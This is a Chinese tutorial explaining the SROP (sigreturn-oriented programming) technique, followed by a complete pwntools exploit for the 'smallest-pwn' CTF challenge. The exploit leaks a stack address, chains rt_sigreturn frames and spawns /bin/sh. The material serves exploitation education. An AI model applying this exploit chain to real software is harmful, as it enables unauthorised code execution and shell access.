



= SROP
:toc:
:toc-title: 目录
:source-highlighter: rouge

== 原理介绍

SROP 利用了一个特殊的系统调用：`sigreturn`。
该系统调用正常情况下发生在 signal 阶段，负责恢复进程的上下文信息。
下面让我们来了解一下 Linux signal 机制。

信号（signal）是一个异步通知机制，通知进程相关事件，常用于进程间通信。
当信号发送时，由于信号是异步机制，系统不能保证信号能被立即处理，所以系统会中断目标进程的执行，挂起该进程。
如果进程之前已经注册了一个信号处理程序，那么之后将执行该处理程序。
否则，将执行默认的信号处理程序。

在进程被挂起时，需要保存进程的上下文状态，用以执行完信号处理程序之后的状态恢复。
这个上下文被保存在用户栈上，并通过 sigreturn 系统调用进行恢复。
如果恶意用户自定义一个上下文保存在栈上，sigreturn 也会不加检查地恢复该上下文，即修改寄存器组。

相比于 ROP，SROP 使用条件更简单一点。
只要有一个 syscall 语句，就能修改寄存器值。
只要有一个 syscall ret 语句，就能实现一个图灵完备语言。

.Stack content while handling a signal (linux x86/64) including sigcontext structure

=== FPSTATE

FPSTATE 是一个指针，指向一个结构体存放有浮点运算单元（FPU）相关的状态。
具体定义在 https://github.com/torvalds/linux/blob/master/arch/x86/include/uapi/asm/sigcontext.h 。
最初的 x86 架构有单独的协处理器负责浮点运算，称为 8087，于是此后的 FPU 都称作 x87 芯片，不管它有没有集成到微处理器里面。
更多资料可参考

* https://wiki.osdev.org/FPU
* http://www.website.masmforum.com/tutorials/fptute/index.html
* https://webcache.googleusercontent.com/search?q=cache:KOFZfRBs2AcJ:https://en.wikibooks.org/wiki/X86_Assembly/Floating_Point&cd=1&hl=en&ct=clnk&gl=de&lr=lang_en|lang_zh-CN

== 例题

题目为  360 春秋杯中的 smallest-pwn，题中提供了一个二进制文件，要求反弹 shell。

程序很小，就几行汇编代码，完成的是一个 read 系统调用，直接溢出在栈上。

== 利用思路

检查程序发现只开启了 NX 保护，并且没有使用任何外部函数：

[source, cmd]
----
➜  smallest checksec smallest
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
----

想要反弹 shell，就要执行 execve("/bin/sh",0,0) 调用，则字符串就得写在进程中的某个位置。
继而可知使用 `read` 调用在某个地址处写入 shell 路径，为了对抗潜在的 ASLR 这个地址必须是已知的。
于是我们就得用 `write` 调用暴露一些地址供我们写入字符串，由于栈上可能存了某些字符串的地址，而这些字符串又是局部变量保存在栈上，所以栈上可能存在一些栈地址，我们可以去暴露得到它们。
最后，为了让利用链能够顺利进行，我们应该提前布置好栈上的内容。

反向推理完成后，让我们来正向梳理解题思路：

. `read` 系统调用布置 ROP 链

. `read` 系统调用控制返回值 rax，用于调用 `write` 系统调用

. `write` 系统调用打印栈上内容，其中必有栈地址（参数为局部变量字符串），获取到该地址

. 再次调用 `read` 写入后续 ROP 链和 shell 路径，由于 `read` 的地址不再是当前栈（rsi 参数有变化），因此需要利用 `rt_sigreturn` 系统调用改变寄存器的值。
这里 rsp 只能填已知的栈地址，所以会发生栈迁移

. 最后使用一次 `rt_sigreturn` 系统调用布置好寄存器的值，再使用 syscall 调用 `execve` 完成反弹 shell

== 解题过程

首先初始化 pwntools：

[source,python]
----
from pwn import *
prog = r"./smallest"
small = ELF(prog)
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.bits = 64
if args['REMOTE']:
    sh = remote('127.0.0.1', 7777)
else:
    sh = process(prog)
    # gdb.attach(sh)

read_addr = 0x4000B0
write_addr = 0x4000B3
syscall_addr = 0x4000BE
----

写入 3 个返回地址到栈上，分别调用 `read`、`write` 和 `read`。
第一次 `read` 用于控制 rax 为值 0x1，这样才能在系统调用时调用的是 `write`。
然后 `write` 用于打印栈上的内容，泄露一个地址用于传入字符串并使用。
第二次 `read` 用于后续构建后续的 ROP 链。

[source,python]
.程序自带 read 输入的数据
----
payload = flat(read_addr, write_addr, read_addr)
sh.send(payload)
raw_input()
----

第一次 `read` 应该输入 write rop 地址的最低位。
因为首先要保证 `read` 的返回值是 1，即只能输入一个字符。
其次这个输入的值不应该破坏原先的内容，而目标程序是小端序，所以是地址的最低位。
`write` 传回的第二个字节是栈地址，由栈上内容可知。

[source,python]
.第一次 read 和栈地址的获取
----
sh.send('\xb3')
# ---------------------------------------
# | read_addr | last function variables |
# ---------------------------------------
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))
raw_input()
----

第二次 `read` 就要考虑将字符串写到泄露地址上了，则应该传入 `rt_sigreturn` 调用和它的参数，读数据到泄露地址上。
这里可以定义一个小的指令段，即通过 `read` 返回值触发 `syscall` 调用 `rt_sigreturn`，这个指令段很通用。

[source,python]
.定义调用 rt_sigreturn 的必需指令段
----
# set rax=15 and call sigreturn
call_sigret = flat(syscall_addr, length=15)
----

[source,python]
.通过 rt_sigreturn 构造 read 调用
----
# read(0, stack_addr, 0x400)
sigret.rax = int(constants.SYS_read)
sigret.rdi = 0x0
sigret.rsi = stack_addr
sigret.rdx = 0x400
sigret.rsp = stack_addr
sigret.rip = syscall_addr
payload = flat(read_addr, 0, bytes(sigret))
sh.send(payload)
sh.send(call_sigret)
----

由 SROP 构造的 read 触发以后，就要考虑写入哪些值了。
除了 shell 路径之外，还需要构造 execve 调用，为了安全起见还应该将字符串放到栈后面。

[source,python]
.调用 read 写入 execve 调用和 /bin/sh
----
# execve(stack_addr, 0, 0)
sigret.rax = int(constants.SYS_execve)
sigret.rdi = stack_addr + 0x200
sigret.rsi = 0
sigret.rdx = 0
sigret.rsp = stack_addr
sigret.rip = syscall_addr
payload = flat(read_addr, 0, bytes(sigret), length=0x200)
payload += flat(b"/bin/sh\x00")
sh.send(payload)
sh.send(call_sigret)

sh.interactive()
----

这样就成功拿到 shell 了。

